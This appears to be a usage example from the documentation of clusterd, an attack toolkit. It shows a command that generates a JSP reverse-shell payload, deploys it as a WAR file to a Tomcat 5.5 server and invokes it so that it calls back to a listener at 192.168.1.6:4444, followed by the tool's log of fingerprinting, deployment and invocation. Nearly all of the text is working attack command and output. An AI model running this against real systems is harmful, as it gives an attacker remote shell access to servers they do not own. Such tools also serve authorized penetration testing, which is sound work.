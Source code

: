 ```
```

tomcat deployment and reverse shell invocation
```
$ ./clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 10:53PM] Started at 2014-05-25 10:53PM
 [2014-05-25 10:53PM] Generating payload....
 [2014-05-25 10:53PM] Payload generated (shell.war).  Payload: java/jsp_shell_reverse_tcp
 [2014-05-25 10:53PM] Servers' OS hinted at windows
 [2014-05-25 10:53PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 10:53PM] Server hinted at 'tomcat'
 [2014-05-25 10:53PM] Checking tomcat version 5.5 Tomcat...
 [2014-05-25 10:53PM] Checking tomcat version 5.5 Tomcat Manager...
 [2014-05-25 10:53PM] Matched 2 fingerprints for service tomcat
 [2014-05-25 10:53PM]   Tomcat (version 5.5)
 [2014-05-25 10:53PM]   Tomcat Manager (version 5.5)
 [2014-05-25 10:53PM] Fingerprinting completed.
 [2014-05-25 10:53PM] Preparing to deploy /tmp/.clusterd/z1dgi.war...
 [2014-05-25 10:53PM] Deployed /tmp/.clusterd/z1dgi.war to /z1dgi
 [2014-05-25 10:53PM] z1dgi invoked at 192.168.1.105
 [2014-05-25 10:53PM] Finished at 2014-05-25 10:53PM
```
